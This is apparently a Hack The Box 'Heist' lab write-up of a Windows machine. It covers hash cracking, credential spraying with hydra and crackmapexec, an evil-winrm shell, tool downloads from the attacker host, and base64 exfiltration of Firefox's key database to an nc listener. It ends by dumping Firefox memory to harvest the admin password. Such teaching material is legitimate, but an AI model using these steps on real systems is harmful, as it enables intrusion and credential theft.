

# Heist writeup
## Discovery
### Nmap

As always we'll start with an nmap of the top 1000 ports:
```
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 2m22s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-01-10T12:57:03
|_  start_date: N/A
```
Visiting port 80, it redirects you to a a `login.php` page.


Let's try the 'Login as guest':


It redirects you to an issues.php page, the users attachment looks interesting:


This line of the user's comment is especially interesting:
> Also, please create an account for me on the windows server as I need to access the files. 


Googling around a bit shows us, that this is some kind of cisco configuration file:



There are a bunch of sites able to decrypt these types of passwords:
https://securitronlinux.com/debian-testing/how-to-crack-cisco-7-encrypted-passwords-with-a-simple-tool/  
https://www.ifm.net.nz/cookbooks/passwordcracker.html  
https://www.ifm.net.nz/cookbooks/cisco-ios-enable-secret-password-cracker.html  
https://www.infosecmatter.com/cisco-password-cracking-and-decrypting-guide/#decrypt_cisco_type_5_passwords_with_hashcat  
But I decided to use my RTX 3080 with hashcat
Hashcat recognizes this password type as hash mode 500.
```
hashcat -m 500 "$1$pdQG$o8nrSzsGXeaduXrjlvKc91" rockyou.txt
hashcat -m 500 "$1$pdQG$o8nrSzsGXeaduXrjlvKc91" rockyou.txt --show
$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent
```

Success! We found the password `stealth1agent`.

To see if we can re-use the password, I tried enumerating samba shares and users with nmap, but did not really succeed:
```
nmap -p139,445 -Pn --script smb-enum-shares 10.10.10.149
sudo nmap -sU -sS --script smb-enum-users.nse -p U:137,T:139 10.10.10.149
```

Let's see if we have any other interesting files in the `/attachments` path, or any other interesting paths to go to:


It did not return anything interesting. Let's write down the credentials we have:
```
kali@kali:~/htb/boxes/heist/10.10.10.149$ cat users.txt 
rout3r
admin
hazard
kali@kali:~/htb/boxes/heist/10.10.10.149$ cat cisco-passwd.txt 
stealth1agent
```

And because we have the credentials in a nice readable format, we can use hydra to try them out via samba
```
kali@kali:~/htb/boxes/heist/10.10.10.149$ hydra -L users.txt -P cisco-passwd.txt smb2://10.10.10.149
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-10 14:47:08
[ERROR] Compiled without LIBSMBCLIENT support, module not available!
```

Hmm looks like my hydra does not know how to do SMB2.
I need to recompile hydra with LIBSMBClient for it to work.
```bash
sudo apt install libsmbclient-dev
# clone thc hydra and build/install as instructed
```

Ok now we should be able to run it:
```bash
kali@kali:~/htb/boxes/heist/10.10.10.149$ hydra -L users.txt -P cisco-passwd.txt smb2://10.10.10.149
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-10 15:10:59
[WARNING] Workgroup was not specified, using "WORKGROUP"
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
[DATA] attacking smb2://10.10.10.149:445/
[445][smb2] host: 10.10.10.149   login: hazard   password: stealth1agent
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-10 15:11:12
```

Looks like the user hazard can log in via samba!

Let's browse the shares via thunar, we can see two shares `ADMIN$` and `C$`, we don't have access to any of them with the `hazard` user though


We can also verify that with smbclient:
```
kali@kali:~/htb/boxes/heist/10.10.10.149$ smbclient //10.10.10.149/C$ --user hazard%stealth1agent
tree connect failed: NT_STATUS_ACCESS_DENIED
kali@kali:~/htb/boxes/heist/10.10.10.149$ smbclient //10.10.10.149/ADMIN$ --user hazard%stealth1agent
tree connect failed: NT_STATUS_ACCESS_DENIED
```
By this time, I thought it makes sense to run a full nmap (`-p-`) sweep, and indeed we do find some new ports:
```
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


### Metasploit
I found the following article, and decided to use the winrm tools of metasploit for further information gathering
https://securethelogs.com/2019/08/30/hacking-windows-remote-management-winrm/
```
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS 10.10.10.149

[+] 10.10.10.149:5985: Negotiate protocol supported
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf6 auxiliary(scanner/winrm/winrm_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf6 auxiliary(scanner/winrm/winrm_login) > set USERPASS_FILE cisco-passwd.txt
USERPASS_FILE => cisco-passwd.txt
msf6 auxiliary(scanner/winrm/winrm_login) > run

[-] 10.10.10.149:5985 - LOGIN FAILED: workgroup\hazard:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: workgroup\rout3r:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: workgroup\admin:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: workgroup\hazard:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: workgroup\Administrator:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: workgroup\stealth1agent: (Incorrect: )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

As we can see, this also did not really succeed.
I decided to use the tool called `smbmap` to see if it can tell us any more information
```
kali@kali:~/htb/boxes/heist/10.10.10.149$ smbmap -u hazard -p stealth1agent -H 10.10.10.149
[+] IP: 10.10.10.149:445        Name: 10.10.10.149                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```
Hmm, still not really what we are looking for, we already knew that the shares were not writable.

By this time, I decided to read up on the cisco format a bit more:
https://www.oreilly.com/library/view/hardening-cisco-routers/0596001665/ch04.html

It seems to use some kind of encryption called 'Vigenere cipher'

Googling around a bit more, I found the following page, which should allow us to decrypt the other two hashes that were in the config file.
http://www.firewall.cx/cisco-technical-knowledgebase/cisco-routers/358-cisco-type7-password-crack.html

And indeed, it was able to decrypt both passwords!
```
0242114B0E143F015F5D1E161713 = $uperP@ssword
02375012182C1A1D751618034F36415408 = Q4)sJu\Y8qz*A3?d
```

I put all the new passwords into my credentials file and re-ran the metasploit command:
```
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\hazard:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\hazard:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\hazard:$uperP@ssword (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\hazard:Q4)sJu\Y8qz*A3?d (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\rout3r:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\admin:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\admin:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\admin:$uperP@ssword (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\admin:Q4)sJu\Y8qz*A3?d (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\hazard:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\hazard:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\hazard:$uperP@ssword (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\hazard:Q4)sJu\Y8qz*A3?d (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\Administrator:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\Administrator:stealth1agent (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\Administrator:$uperP@ssword (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\Administrator:Q4)sJu\Y8qz*A3?d (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\stealth1agent: (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\$uperP@ssword: (Incorrect: )
[-] 10.10.10.149:5985 - LOGIN FAILED: WORKGROUP\Q4)sJu\Y8qz*A3?d: (Incorrect: )
```

Still no success 😟

Googling around a bit more, I found `evil-winrm`, which should allow us to run code via the port 5985.
```bash
sudo gem install evil-winrm
evil-winrm -i 10.10.10.149 -u hazard -p 'stealth1agent'
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```
hmm, even thought the password for the user `hazard` was correct to connect to SMB, it did not allow us to use winRM.


There is another tool called `crackmapexec`, which will work similar to hydra, but is specially designed for samba, as it can evaluate shares as well
```bash
kali@kali:~/htb/boxes/heist/10.10.10.149$ crackmapexec smb -u users.txt -p cisco-passwd.txt --shares 10.10.10.149                                             
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [+] Enumerated shares
SMB         10.10.10.149    445    SUPPORTDESK      Share           Permissions     Remark
SMB         10.10.10.149    445    SUPPORTDESK      -----           -----------     ------
SMB         10.10.10.149    445    SUPPORTDESK      ADMIN$                          Remote Admin
SMB         10.10.10.149    445    SUPPORTDESK      C$                              Default share
SMB         10.10.10.149    445    SUPPORTDESK      IPC$            READ            Remote IPC
```

Looks like the new passwords did not help us much.
We need to find a way to find more users. Previously I only knew about the user enumeration scripts from nmap, but python-impacket has some tools to fetchs users via SID lookup:
```
kali@kali:/usr/share/doc/python3-impacket/examples$ python3 lookupsid.py 'hazard:stealth1agent'@10.10.10.149
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```
Bunch of new users! Let's add it to our `users.txt` file.

new users:
Guest
WDAGUtilityAccount
support
Chase
Jason

Running `crackmapexec` again, we can see that the following user can authenticate as well
```
MB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d 
SMB         10.10.10.149    445    SUPPORTDESK      [+] Enumerated shares
SMB         10.10.10.149    445    SUPPORTDESK      Share           Permissions     Remark
SMB         10.10.10.149    445    SUPPORTDESK      -----           -----------     ------
SMB         10.10.10.149    445    SUPPORTDESK      ADMIN$                          Remote Admin
SMB         10.10.10.149    445    SUPPORTDESK      C$                              Default share
SMB         10.10.10.149    445    SUPPORTDESK      IPC$            READ            Remote IPC
```

Let's try `evil-winrm` again:
```bash
kali@kali:~/htb/boxes/heist/10.10.10.149$ evil-winrm -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents>
```

Boom a user shell 🙌

## Privesc
This seems to be a really restricted user:
```powershell
*Evil-WinRM* PS C:\> systeminfo
systeminfo.exe : ERROR: Access denied
    + CategoryInfo          : NotSpecified: (ERROR: Access denied:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
```
We can run the powershell equivalent though:
```powershell
[System.Environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      17763  0
```
It looks like a fairly recent version of windows 10, so probably not vulnerable to any bigger CVEs

I'll transfer some tools over via powershell https://github.com/pentestmonkey/windows-privesc-check:
```ps1
Invoke-WebRequest "http://10.10.14.6/windows-privesc-check2.exe" -OutFile "C:\Users\Chase\Documents\priv.exe"
.\priv.exe --audit -a -o report
```

It shows us that there seem to be firefox saved credentials:
> Firefox credentials file exists at C:\Users\Chase\AppData\Roaming\Mozilla\Firefox\Profiles\77nc64t5.default\key4.db 

Let's download that and decrypt it.
`windows-privesc-check` recommends to use SharpWeb:
https://github.com/djhohnstein/SharpWeb/releases/tag/v1.2
```ps1
 Invoke-WebRequest "http://10.10.14.6:9090/SharpWeb.exe" -OutFile "C:\Users\Chase\Documents\sharp.exe" 
```
There is also https://github.com/lclevy/firepwd which allows decryption on our local attacking Kali machine.

For that we need to transfer the key database first.
I'll use this opportunity to talk about different ways to transfer files from a windows machine.

### Base 64 file transfer
We'll read the file and encode it to a base64 string and then using HTTP POST to transfer it to us.

On the victim machine:
```ps1
 $b64 = [System.convert]::ToBase64String((Get-Content -Path "C:\Users\Chase\Documents\key4.db" -Encoding Byte))
 Invoke-WebRequest -Uri http://10.10.14.6 -Method POST -Body $b64
```

On the attacking machine:
```sh
sudo nc -lvnp 80 > firefox.b64
```
We can then convert it back to a file like this:
```sh
 cat firefox.b64 | base64 --decode > firefox.key4.db
```

### Evil-WinRM upload/download
This is the easiest method by far, if you already have an Evil-WinRM session open.
Just use the commands `download` and `upload` to transfer files

### Samba share
In the end this is what I ended up using, create a samba share on your kali machine:
Add this /etc/samba/smb.conf
```conf
 [share]
   path = /opt/share
   browseable = yes
   writeable = yes
   guest ok = yes
```
This will expose a global anonymous share called `share` for the victim to mount.
On the victim it can be mounted via:
```batch
net use \\10.10.14.6\share Y:
```
Which will assign the drive letter Y: to the share, we can now freely exchange files via samba


### Back to cracking the firefox password database
Ok so let's run firepwd:
```
kali@kali:/opt/privesc/firepwd$ python3 firepwd.py -d /home/kali/htb/boxes/heist/10.10.10.149
globalSalt: b'971c06f78c138b575cc8c2b401c4881412f946fb'
 SEQUENCE {
   SEQUENCE {
     OBJECTIDENTIFIER 1.2.840.113549.1.12.5.1.3 pbeWithSha1AndTripleDES-CBC
     SEQUENCE {
       OCTETSTRING b'b79dbe20d1dc325c6b42874a5cef544f6724a6f5'
       INTEGER b'01'
     }
   }
   OCTETSTRING b'daf206eab1546f82390820b11c2c0675'
 }
entrySalt: b'b79dbe20d1dc325c6b42874a5cef544f6724a6f5'
b'a551c2f0ad5e86c8cfbab87b1caef049'
password check? False
```
It does look like it found some stuff, but I'm was not sure I need a master password to decrypt it?
I quickly wrote a tool to run firepwd with all the passwords we found so far:
```sh
while IFS= read -r line; do python3 /opt/privesc/firepwd/firepwd.py -p $line; done < cisco-passwd.txt
```
This did not really help though, same output for all of them. The only other thing that I could find was the hashing algorithm used for it, which is "PBEWithSHA1AndDESede"

This seemed like a rabbit hole so let's find other infos

### Looking around
I decided to look into the IIS directory, where we know that a login.php file exists (annoyingly 'Chase' is not allowed to list directories in inetpub...)
```php
C:\inetpub\wwwroot> type login.php
<?php
session_start();
if( isset($_REQUEST['login']) && !empty($_REQUEST['login_username']) && !empty($_REQUEST['login_password'])) {
        if( $_REQUEST['login_username'] === 'admin@support.htb' && hash( 'sha256', $_REQUEST['login_password']) === '91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040') {
                $_SESSION['admin'] = "valid";
                header('Location: issues.php');
        }
        else
                header('Location: errorpage.php');
}
else if( isset($_GET['guest']) ) {
        if( $_GET['guest'] === 'true' ) {
                $_SESSION['guest'] = "valid";
                header('Location: issues.php');
        }
}

?>
```
Ok we found the password hash of the admin!  
Let's check if it's a common password via hashcat:
```
hashcat -m 1400 "91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040" rockyou.txt --show
```
Nope, unfortunately, it seems to be a somewhat secure password

#### Processes
Let's run ps to see running processes
```
 Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    147       9     6640       3576              6696   0 conhost
    480      19     2288       5516               412   0 csrss
    294      17     2324       5284               500   1 csrss
    358      15     3552      14596              5420   1 ctfmon
    254      14     4088      13520              3976   0 dllhost
    164       9     1896       9844       0.34   6952   1 dllhost
    616      32    33756      58860                80   1 dwm
   1497      58    23664      78836              5772   1 explorer
    390      29    23904      57444       9.17   6188   1 firefox
    358      26    16368      37624       0.72   6300   1 firefox
   1254      68   109580     182820      15.20   6488   1 firefox
    343      19     9972      37448       0.14   6612   1 firefox
    407      32    16956      62636       0.88   6868   1 firefox
```

Firefox could be interesting, it seems to be doing something with 15.2% CPU usage  
Sysinternals provides various tools to interact with windows processes.  
Get them from https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite


I'm mostly interesting in dumping the firefox processes memory, we can run procdump to do that:
We'll transfer the file and run it, the first time we need to accept the EULA (fun fact, this will create a registry key, so check your windows machine if you've been pwned 😉)

```
.\procdump64.exe -accepteula
```
I used the following resource to check how it works:
https://securityonline.info/procdump-dump-https-pasword/


The `-ma` flag is important, otherwise it will not dump private memory. Trust me, learn from my mistakes :)
```ps1
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64.exe -ma 6488

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[19:28:36] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_210111_192836.dmp
[19:28:36] Dump 1 writing: Estimated dump file size is 455 MB.
[19:28:41] Dump 1 complete: 455 MB written in 5.3 seconds
[19:28:42] Dump count reached.
```
After transferring it to our box via SMB, we'll run our friend `strings` on it:
```
strings firefox.exe_210111_192836.dmp | grep -i password > passwds-dump
```
After some digging, we'll find this line:
> http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

admin@support.htb
4dD!5}x/re8]FBuZ

Which is the admins password

We can put it into our passwords file and run it:


Pwn3d!

Let's log in with evil-winrm:
```ps1
kali@kali:~/htb/boxes/heist/10.10.10.149$ evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   9:05 AM             32 root.txt
```

And we're root!


## Conclusion
This was a really cool windows box, I learned a bunch about windows processes, Samba, file transfers etc.
The most useful tools that I'll keep re-using, is definitely the samba file share. It's re-usable for almost every windows box you pwn.  
Awesome tools:
- Evil-WinRM
- crackmapexec
- python-impacket
- smbmap